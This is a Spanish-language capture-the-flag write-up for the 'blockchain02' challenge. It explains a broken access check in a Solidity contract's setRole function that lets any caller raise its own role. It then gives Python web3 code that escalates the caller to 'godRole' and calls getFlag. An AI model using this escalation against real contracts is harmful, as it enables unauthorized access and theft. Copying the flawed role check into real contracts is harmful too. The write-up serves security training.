 # blockchain02 #

- **Tipo:** Blockchain
- **Autor:** Deloitte
- **Autor del Writeup:** [focab0r](https://github.com/focab0r)
- **Flag:** `?`

## WriteUp ##

Al descomprimir el ZIP, nos encontramos ante tres archivos:
- contract.sol: Este es el contrato de la blockchain. Leyendo, se ve claramente que la flag se obtiene al llamar a la funcion `getFlag()`
- ABI\_and\_contract.txt: Contiene una la direccion y el ABI del contrato. Este es un codigo necesario para interactuar con el contrato.
- accounts.txt: Aqui hay una gran cantidad de direcciones privadas existentes en la blockchain. Necesitaremos una de ellas para firmar transacciones.

Empezamos leyendo el contrato. Para que la funcion `getFlag()` nos devuelva la flag, comprueba antes que el rol del usuario que firma la transaccion es igual a "godRole", mediante la siguiente linea:
```
require(roles[msg.sender] == godRole, "Access denied."); // only accessible by GodRole
```
Este godRole se consigue con la funcion `getIdGodRole(address user)`. Sin embargo, esta tambien comprueba antes que el rol de nuestro usuario sea mayor que 2, por lo que tenemos que aumentar nuestro rol (a la derecha, en un comentario, pone que este es 1).
```
function getIdGodRole(address user) public view returns (uint) {
    require(roles[user] > 2, "Access denied."); // only accessible by role 1
    return godRole;
}
```
Por lo tanto, la unica solucion consiste en llamar a setRole y cambiar el rol del usuario. Afortunadamente, lo unico que comprueba la funcion es que el usuario del cual se quiera cambiar el rol, sea el mismo que el que firma la transaccion (Como "||" es un "OR", el resto de la restriccion no es necesaria).
```
require(msg.sender == user || roles[msg.sender] > 0, "Access denied.");
```

### Construyendo un codigo para obtener la flag (Python) ###

Podemos empezar comprobando que rol tenemos. Para ello, llamamos a la funcion `getRole(adress user)` y le pasamos nuestra direccion, previamente definida como account.adress. Printeamos el valor:
```
role = contract.functions.getRole(user_address).call()
print(f'The role of {user_address} is {role}')
```
Posteriormente, cambiamos nuestro rol y ponemos uno superior a 2. Como esta es una funcion que conlleva un cambio, la forma de llamarla es diferente, ya que es necesario firmarla:
```
nonce = web3.eth.get_transaction_count(account.address)
tx = contract.functions.setRole(user_address,3).build_transaction({
    'gas': 2000000,
    'gasPrice': web3.to_wei('10', 'gwei'),
    'nonce': nonce
})

signed_tx = web3.eth.account.sign_transaction(tx, private_key)
tx_hash = web3.eth.send_raw_transaction(signed_tx.rawTransaction)
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)

```
Con los privilegios obtenidos, podemos ver el GodRole, llamando a la funcion correspondiente
```
godRole = contract.functions.getIdGodRole(user_address).call()
print(f'GodRole is {godRole}')
```
y actualizar posteriormente nuestro rol al GodRole:
```
nonce = web3.eth.get_transaction_count(account.address)
tx = contract.functions.setRole(user_address,godRole).build_transaction({
    'gas':2000000,
    'gasPrice':web3.to_wei('10','gwei'),
    'nonce': nonce
})

signed_tx = web3.eth.account.sign_transaction(tx, private_key)
tx_hash = web3.eth.send_raw_transaction(signed_tx.rawTransaction)
```
Finalmente, podemos llamar a la funcion getFlag(), pasandole nuestra direccion en el campo "from", tal como lo especifica el contrato.
```
flag = contract.functions.getFlag().call({'from': user_address})
print(f'Flag: {flag}')
```
El codigo completo se puede encontrar en "exploit.py"
